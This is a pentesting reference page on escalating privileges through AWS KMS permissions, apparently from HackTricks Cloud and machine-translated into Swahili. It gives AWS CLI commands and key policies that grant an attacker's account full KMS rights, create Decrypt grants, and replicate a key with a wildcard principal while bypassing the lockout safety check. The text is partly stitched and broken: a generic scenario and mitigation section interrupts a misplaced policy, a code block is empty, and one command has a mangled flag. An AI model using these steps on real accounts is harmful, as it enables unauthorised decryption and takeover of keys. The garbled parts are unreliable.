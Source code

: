 # AWS - KMS Privesc

{% hint style="success" %}
Jifunze na kufanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na kufanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) au [**telegram group**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

Kwa maelezo zaidi kuhusu KMS angalia:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

Kwa ruhusa hizi inawezekana **kubadilisha ruhusa za ufikiaji wa ufunguo** ili uweze kutumiwa na akaunti nyingine au hata mtu yeyote:

{% code overflow="wrap" %}
```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```
{% endcode %}

policy.json:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "kms:Decrypt",
            "Resource": "*"
        }
    ]
}
```

{% code title="policy.json" %}

{% endcode %}

## KMS Privilege Escalation

### Scenario 1: Decrypting Administrator Passwords

Katika hali hii, mshambuliaji anaweza kutumia ruhusa za `kms:Decrypt` kufichua nywila za msimamizi zilizohifadhiwa kwenye KMS. Hii inaweza kuruhusu mshambuliaji kupata ufikiaji wa rasilimali za AWS kwa kutumia nywila hizo.

### Scenario 2: Creating a New Key with Administrative Privileges

Katika hali hii, mshambuliaji anaweza kutumia ruhusa za `kms:CreateKey` kuunda ufunguo mpya na kisha kupeana ruhusa za kiutawala kwa ufunguo huo. Hii inaweza kuruhusu mshambuliaji kufanya vitendo vya kiutawala kwenye rasilimali za AWS.

### Mitigation

Ili kupunguza hatari hizi, ni muhimu kuweka sera za IAM ambazo zinadhibiti upatikanaji wa ruhusa za KMS. Hii inaweza kujumuisha:

- Kuweka sera za IAM ambazo zinadhibiti ni nani anaweza kuunda na kusimamia funguo za KMS.
- Kuweka sera za IAM ambazo zinadhibiti ni nani anaweza kufichua data iliyosimbwa kwa kutumia funguo za KMS.
- Kufanya ukaguzi wa mara kwa mara wa sera za IAM na ruhusa za KMS ili kuhakikisha kuwa zinakidhi mahitaji ya usalama.

Kwa kufuata hatua hizi, unaweza kupunguza hatari ya kupandishwa kwa ruhusa kupitia KMS.
```json
{
"Version" : "2012-10-17",
"Id" : "key-consolepolicy-3",
"Statement" : [
{
"Sid" : "Enable IAM User Permissions",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<origin_account>:root"
},
"Action" : "kms:*",
"Resource" : "*"
},
{
"Sid" : "Allow all use",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : [ "kms:*" ],
"Resource" : "*"
}
]
}
```
### `kms:CreateGrant`

Inamruhusu mhusika kutumia KMS key:
```bash
aws kms create-grant \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
--grantee-principal arn:aws:iam::123456789012:user/exampleUser \
--operations Decrypt
```
{% hint style="warning" %}
Grant inaweza kuruhusu aina fulani tu za operesheni: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)
{% endhint %}

{% hint style="warning" %}
Kumbuka kuwa inaweza kuchukua dakika chache kwa KMS **kuruhusu mtumiaji kutumia ufunguo baada ya grant kuzalishwa**. Mara muda huo ukipita, principal anaweza kutumia KMS key bila ya kuhitaji kutaja chochote.\
Hata hivyo, ikiwa inahitajika kutumia grant mara moja [tumia grant token](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (angalia msimbo ufuatao).\
Kwa [**maelezo zaidi soma hii**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token).
{% endhint %}
```bash
# Use the grant token in a request
aws kms generate-data-key \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
–-key-spec AES_256 \
--grant-tokens $token
```
Note kwamba inawezekana kuorodhesha ruhusa za funguo na:
```bash
aws kms list-grants --key-id <value>
```
### `kms:CreateKey`, `kms:ReplicateKey`

Kwa ruhusa hizi inawezekana kurudia ufunguo wa KMS ulio na uwezo wa kanda nyingi katika kanda tofauti na sera tofauti.

Kwa hivyo, mshambuliaji anaweza kutumia vibaya hili kupata privesc ya ufikiaji wake kwa ufunguo na kuutumia

{% code overflow="wrap" %}
```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% endcode %}

### `kms:Decrypt`

Hii ruhusa inaruhusu kutumia ufunguo kufungua baadhi ya taarifa.\
Kwa maelezo zaidi angalia:

{% content-ref url="../aws-post-exploitation/aws-kms-post-exploitation.md" %}
[aws-kms-post-exploitation.md](../aws-post-exploitation/aws-kms-post-exploitation.md)
{% endcontent-ref %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

